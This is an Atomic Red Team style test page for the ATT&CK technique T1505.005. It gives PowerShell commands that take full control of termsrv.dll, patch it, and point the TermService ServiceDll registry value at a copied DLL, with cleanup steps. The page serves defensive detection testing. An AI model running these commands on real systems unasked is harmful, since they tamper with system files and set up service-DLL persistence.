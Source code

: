 ```yaml
---
tags: [T1505_005, atomic_test]
filename: "[[T1505.005|T1505.005 - Server Software Component: Terminal Services DLL]]"
---
```

# T1505.005 - Server Software Component: Terminal Services DLL

## Atomic Test #1 - Simulate Patching termsrv.dll
Simulates patching of termsrv.dll by making a benign change to the file and replacing it with the original afterwards.
Before we can make the modifications we need to take ownership of the file and grant ourselves the necessary permissions.

**Supported Platforms:** Windows


**auto_generated_guid:** 0b2eadeb-4a64-4449-9d43-3d999f4a317b






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$termsrvDll = "C:\Windows\System32\termsrv.dll"

$ACL = Get-Acl $termsrvDll
$permission = "Administrators","FullControl","Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$ACL.SetAccessRule($accessRule)
Set-Acl -Path $termsrvDll -AclObject $ACL

Copy-Item -Path "C:\Windows\System32\termsrv.dll" -Destination "C:\Windows\System32\termsrv_backup.dll" -ErrorAction Ignore
Add-Content -Path "C:\Windows\System32\termsrv.dll" -Value "`n" -NoNewline -ErrorAction Ignore
Move-Item -Path "C:\Windows\System32\termsrv_backup.dll" -Destination "C:\Windows\System32\termsrv.dll" -Force -ErrorAction Ignore
```

#### Cleanup Commands:
```powershell
Move-Item -Path "C:\Windows\System32\termsrv_backup.dll" -Destination "C:\Windows\System32\termsrv.dll" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Modify Terminal Services DLL Path
This atomic test simulates the modification of the ServiceDll value in HKLM\System\CurrentControlSet\services\TermService\Parameters. This technique may be leveraged by adversaries to establish persistence by loading a patched version of the DLL containing malicious code.

**Supported Platforms:** Windows


**auto_generated_guid:** 18136e38-0530-49b2-b309-eed173787471






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$termsrvDll = "C:\Windows\System32\termsrv.dll"

$ACL = Get-Acl $termsrvDll
$permission = "Administrators","FullControl","Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$ACL.SetAccessRule($accessRule)
Set-Acl -Path $termsrvDll -AclObject $ACL

Copy-Item -Path $termsrvDll -Destination "$HOME\AtomicTest.dll"

$newServiceDll = "$HOME\AtomicTest.dll"

$registryPath = "HKLM:\System\CurrentControlSet\services\TermService\Parameters"

# Check if the registry key exists
if (Test-Path -Path $registryPath) {
    # Modify the ServiceDll value in the registry
    Set-ItemProperty -Path $registryPath -Name "ServiceDll" -Value $newServiceDll
    Write-Host "ServiceDll value in the registry has been updated to: $newServiceDll"
} else {
    Write-Host "Registry key not found. Make sure the 'TermService\Parameters' key exists."
}
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\services\TermService\Parameters" -Name "ServiceDll" -Value "C:\Windows\System32\termsrv.dll"
```





<br/>
